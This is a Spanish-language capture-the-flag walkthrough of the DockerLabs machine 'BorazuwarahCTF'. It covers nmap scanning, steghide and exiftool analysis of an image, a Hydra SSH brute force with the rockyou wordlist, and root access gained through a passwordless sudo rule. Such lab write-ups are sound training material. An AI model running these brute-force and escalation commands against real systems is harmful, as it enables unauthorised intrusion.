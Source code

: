 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "BorazuwarahCTF".
Una vez hecho, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
bash auto_deploy.sh borazuwarahctf.tar
```
Tras desplegarse la maquina, hacemos un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 -n -Pn -vvv 172.17.0.2
```
y vemos que tiene dos puertos abiertos el 22 (SSH) y el 80 (HTTP):
```
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
```
En este caso, empezaremos poniendo en el navegador esta IP y ver si en la pagina, existe alguna informacion "util".
Vemos una pagina con una foto de un huevo Kinder. Si presionamos "CTRL + U", no vemos nada interesante, asi que nos bajaremos la foto para ver si hay algun mensaje oculto en ella con "wget http://172.17.0.2/imagen.jpeg ".
Ahora vamos a probar una tecnica de ocultacion de informacion llamada "Esteganografia".
Para ello, ejecutaremos STEGHIDE sobre la foto descargada:
```
steghide extract -sf imagen.jpeg

Enter passphrase: 
wrote extracted data to "secreto.txt"
```

**NOTA: Para ocultar un archivo llamado por ejemplo "archivo.txt" en una imagen "imagen.jpg" escribiriamos: 
	"steghide embed -cf imagen.jpg -ef archivo.txt"
Por su parte, si lo que queremos es extraer el archivo oculto, pondriamos: 
	"steghide extract -sf imagen.jpg**

Bueno, y ahora, volviendo a la maquina, si hacemos un "cat" sobre el archivo "secreto.txt", nos muestra:
```
cat secreto.txt

Sigue buscando, aquí no está to solución
aunque te dejo una pista....
sigue buscando en la imagen!!!
```
Gracias a la info obtenida, es el momento de intentar leer los posibles metadatos que haya en la foto con EXIFTOOL a ver si van por ahi los tiros:
```
exiftool imagen.jpeg
```
Obtenemos:
```
ExifTool Version Number         : 12.76
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:05:28 18:10:18+02:00
File Access Date/Time           : 2024:07:08 19:29:37+02:00
File Inode Change Date/Time     : 2024:07:08 19:27:29+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```
Por fin hemos obtenido un usuario: "borazuwarah".
Es momento ahora de usar HYDRA para ver si podemos obtener la contraseña de este usuario y entrar por el puerto 22 (SSH).
```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
Unos segundos despues obtenemos:
```
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
```
Es hora de intentar acceder mediante el protocolo SSH por lo que escribimos:
```
borazuwarah@172.17.0.2
```
Tras contestar "yes" a la primera pregunta e introducir la contraseña obtenida con HYDRA, vemos que ya estamos dentro. Solo nos quedaria la escalada de privilegios para tener acceso completo. Intentaremos primero con el comando "sudo -l":
```
borazuwarah@ccab7e55cb75:~$ whoami
borazuwarah

borazuwarah@ccab7e55cb75:~$ sudo -l
Matching Defaults entries for borazuwarah on ccab7e55cb75:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User borazuwarah may run the following commands on ccab7e55cb75:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
    
borazuwarah@ccab7e55cb75:~$
```
Tal y como se observa, ejecutando "/bin/bash" deberiamos tener acceso "root", por lo que simplemente escribimos:
```
borazuwarah@ccab7e55cb75:~$ sudo /bin/bash

root@ccab7e55cb75:/home/borazuwarah# whoami
root
root@ccab7e55cb75:/home/borazuwarah#
```
Y listo, tal y como se puede observar, al escribir "whoami" se ve que el acceso como "root" ha sido obtenido. Con esto la maquina estaria hecha.



